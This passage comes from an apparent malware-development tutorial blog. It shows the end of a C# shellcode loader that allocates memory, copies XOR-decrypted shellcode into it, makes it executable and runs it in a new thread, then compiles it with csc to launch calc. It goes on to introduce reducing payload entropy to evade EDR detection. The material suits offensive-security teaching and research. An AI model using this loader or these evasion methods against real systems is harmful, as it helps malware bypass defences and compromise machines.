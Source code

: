 ```csharp
            IntPtr funcAddr = VirtualAlloc(IntPtr.Zero, shellcode.Length, (0x1000 | 0x2000), PAGE_READWRITE);
            
            // 2. Copy shellcode to allocated space
            Marshal.Copy(shellcode , 0, (IntPtr)funcAddr, shellcode.Length);

            // 3. Change protection to executable
            uint oldprotection = 0;
            VirtualProtect((IntPtr)funcAddr, (uint)shellcode.Length, PAGE_EXECUTE_READ, out oldprotection);

            IntPtr hThread = IntPtr.Zero;
            UInt32 threadId = 0;

            // 4. Execute
            hThread = CreateThread(0, 0, funcAddr, IntPtr.Zero, 0, ref threadId);
            WaitForSingleObject(hThread, 0xFFFFFFFF);
            return;
        }
    }
}
```

I can then compile this code with csc using the command `C:\Windows\Microsoft.NET\Framework64\v4.0.30319\csc.exe /target:exe /out:csharp_test.exe CSharp_EXE.cs`. Run the compiled EXE and we successfully pop calc with the XOR decrypted shellcode!

<img src="/assets/images/maldev101/csharp-xor-shellcode.png" alt="CSharp XOR shellcode" width="700" />

### Entropy Evasion

In 2024, I did 3 conference presentations about malware evasion and entropy titled "Simplified Malware Evasion - Entropy and Other Techniques" (see [SecTor 2024 slides](https://i.blackhat.com/SecTor-2024/Sector-24-Summerhill-SimplifiedMalwareEvasion.pdf)). 
Entropy is a measurement of randomness which EDRs use to help identify malware containing a high threshold of 
entropy compared to normal files. The slides and presentation talk a lot more about entropy and the research I did, but to sum it up: Files with large random blobs such as shellcode create high levels of entropy in our compiled programs. We want to reduce entropy of payloads to avoid hitting
these thresholds where EDRs will perform additional analysis/machine learning/detections on high entropy files.
